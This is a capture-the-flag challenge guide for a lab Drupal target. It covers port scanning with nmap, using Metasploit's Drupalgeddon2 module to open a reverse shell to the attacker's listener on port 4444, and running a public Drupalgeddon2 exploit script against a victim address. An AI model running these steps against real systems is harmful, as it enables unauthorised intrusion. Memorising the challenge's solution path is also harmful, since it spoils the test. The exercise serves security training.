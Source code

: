 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

##### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`rpm -vhU https://nmap.org/dist/nmap-7.80-1.x86_64.rpm`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

##### Metasploit
If you have Docker installed you can simply run the metasploit container image. Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote IP of Metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

##### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use the public exploit available here: https://github.com/dreadlocked/Drupalgeddon2

First, you need to clone the repository into your attacker's machine:

`git clone https://github.com/dreadlocked/Drupalgeddon2`

Go to the project folder and install the library dependencies:

`cd Drupalgeddon2`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./drupalgeddon2.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`

